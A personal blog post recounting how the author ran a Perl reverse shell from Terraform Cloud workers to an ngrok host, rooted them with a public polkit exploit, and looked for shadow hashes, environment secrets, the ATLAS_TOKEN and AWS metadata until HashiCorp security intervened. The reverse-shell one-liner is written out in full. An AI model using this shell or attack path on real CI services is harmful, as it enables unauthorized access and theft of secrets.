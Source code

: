 ```yaml
---
id: sorry-hashicorp
previewImageUrl: https://cdn.ruse.tech/imgs/sorry-hashicorp/icon.png
datePosted: 09-29-2022
pinned: false
description: Exploring Terraform Enterprise and getting caught
tags: hacking
      terraform
title: Sorry hashicorp
---
```

# Intro

I am writing the blog a few months after the fact so some details and screenshots were lost along the way. 

I am a big fan of Terraform and more recently Terraform Enterprise (TFE). TFE offers free accounts for users which I use to manage my projects.

Using a remote TFE workspace comes with many cool features but to me best benefits are state management and CI/CD. Simply connect your repo to TFE and commit to main and your terraform code executes. 

This got me thinking, I am running code on another person's machine....

## The starting mischief 

Okay so we can run code on another machine but where does that get us? 

I started thinking of a way I could get a shell to explore the Hasicorp TFE workers. There is a great blog by Alxk 
https://alex.kaskaso.li/post/terraform-plan-rce which goes over several methods you can execute code at various stagings in TF. 

The easiest and most simple way is to use an external provider and run a bash payload. For some reason at the time I used a perl payload. If I remember correctly it was because it worked out of the box...sorry lol.

To make things easy I used ngrok to proxy the connection back to my local host. If you are worried about opsec please do not do this. 

```bash
#!/bin/sh

perl -e 'use Socket;$i="4.tcp.ngrok.io";$p=19960;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

## Poking around

Once on the host, we are running as user Terraform on Ubuntu 18.04 ... a little outdated if you ask me HashiCorp.

We all love lazy hacking so one of the first things I did was check the sudo version. At this time PolKit had only been out for a few days (weeks?) and I saw version `Sudo version 1.8.21p2`. Light work, finding a quick public exploit on GitHub and we have root.

With root, I start poking around the host for any type of configuration files, ssh keys, or credentials that might be useful for escalation but had no luck.

## Cross Persistence? 

My main question was, can I access other users' runs? 

Without knowing exactly how the system works, there are some assumptions to be made. I know the hosts are ephemeral and by hitting the AWS metadata API I can see I am running on a t3a.small. So ephemeral EC2 hosts...interesting. 

I started to wonder, Are hosts being reused or are they deleted after a single run? 

To test this I added a cron on an instance to call and waited but, it never did. 

I gave up on this idea and started to look elsewhere.
## Finding the Terraform user hash

Using the root access I checked/etc/shadowd and found the password hash for the Terraform users. 

Then I checked several instances it was clear that all runners share the same user hash, I didn't try to crack it.

While this is a cool find, there is no networking between hosts or externally so the user hash is not useful in this case. I still reported it to HashiCorp. 

## Environment Variables 

This is not an exploit but a behavior of TFE. If you add secrets or share in a TFE workspace the secrets will be stored in the ENVs. These secrets will be present even if not used by the deployment. This could be useful for exfil in the future if you can run TF code. 

Another interesting note is that all workers authenticate to the workspace using an ATLAS_TOKEN, stealing this token will give you temporary access to the workspace. I did not explore exactly what permissions this token had because I was asked by Hashicorp to stop...

I also tried accessing AWS role credentials using the internal metadata API but there was no role attached to the worker instance, a dead end.

## Getting Caught 

To be clear I was doing all this testing in my environment in an isolated account with good intentions. That being said it is likely against the terms and services. I do not recommend, in any case doing unauthorized testing against a service. 

I called it a night and when I woke up, I had a polite email from Hashicorp.

```text
Hi there!

We noticed that you are interested in our Terraform Cloud worker configuration and saw that you were active late last night / this morning.

Organization Name: ruse

Workspace Name: testing

While not an exposure within the context of our security model, the type of activity that we observed in your account (specifically, escalating access on an isolated worker using the recent polkit vulnerability) violates the Terms of Use for Terraform Cloud. Normally this would result in a suspension of your Terraform organization and account, but we wanted to reach out and see if you would be interested in chatting more about Terraform Cloud. We also ask that you refrain from seeking access to AWS metadata, exploiting CVE-2021-4034, etc., and, instead, invite you to have a chat.

Looking forward to hearing back from you.

Best,

HashiCorp Security

P.S. We are also hiring (https://www.hashicorp.com/jobs/security) in case you are interested in taking your security knowledge and applying it more directly to our products as part of the HashiCorp team :).
```

I was able to meet with their security team and walk through what I was trying and possible attack paths. The security team was very nice and shared some of the system design decisions already taken to mitigate those attack paths. 

Seriously shout-out to Hashicorp for being so cool. 

At the end of the day, no real vulns (a good thing) came from this exploration but it was fun at the very least. There is more exploration to be done in this area and I would have loved to have more time to explore the host configurations, it will have to wait for an authorized time. ;)